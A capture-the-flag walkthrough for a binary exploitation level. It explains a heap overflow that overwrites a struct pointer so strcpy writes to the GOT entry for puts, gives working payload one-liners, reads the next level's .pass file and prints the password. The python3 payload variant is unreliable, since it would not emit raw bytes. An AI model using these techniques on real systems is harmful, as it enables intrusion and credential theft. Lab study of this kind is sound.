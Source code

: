 # Level 07 Walkthrough

## Binary analysis

The binary allocates two structures and two string buffers on the heap. It uses `strcpy` to copy user input into the first buffer, then again into the second buffer, using pointers stored in the structures. The goal is to overflow the first buffer to overwrite the pointer in the second structure, so that the second `strcpy` writes to a controlled location (e.g., the GOT entry for `puts`).

Relevant code:
```
- malloc for struct_1 (0x0804a018)
- malloc for buffer_1 (0x0804a028)
- malloc for struct_2 (0x0804a038)
- malloc for buffer_2 (0x0804a048)

Overflow buffer_1 to overwrite struct_2[1] (pointer at 0x0804a03c).
```

## Exploitation

We overflow buffer_1 (starting at 0x0804a028) with 20 bytes to reach the pointer at 0x0804a03c. We overwrite this pointer with the address of the GOT entry for `puts` (0x08049928). Then, for the second argument, we provide the address of a function to execute (e.g., the address of a shell function or system call).

Example payload:

```bash
./level7 "$(python3 -c 'print("A"*20 + "\x28\x99\x04\x08")')" "$(python3 -c 'print("\xf4\x84\x04\x08")')"
```

- 20 bytes of padding ("A"*20)
- Overwrite pointer with 0x08049928 (GOT entry for puts)
- Second argument: address to write (e.g., 0x080484f4)

## Commands used

```
./level7 "$(printf 'AAAAAAAAAAAAAAAAAAAA\x28\x99\x04\x08')" "$(printf '\xf4\x84\x04\x08')"
cat /home/user/level8/.pass
```

## Result

After running the exploit, we get the password for level8:

```
cat /home/user/level8/.pass
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```

Copy the password for the next level. 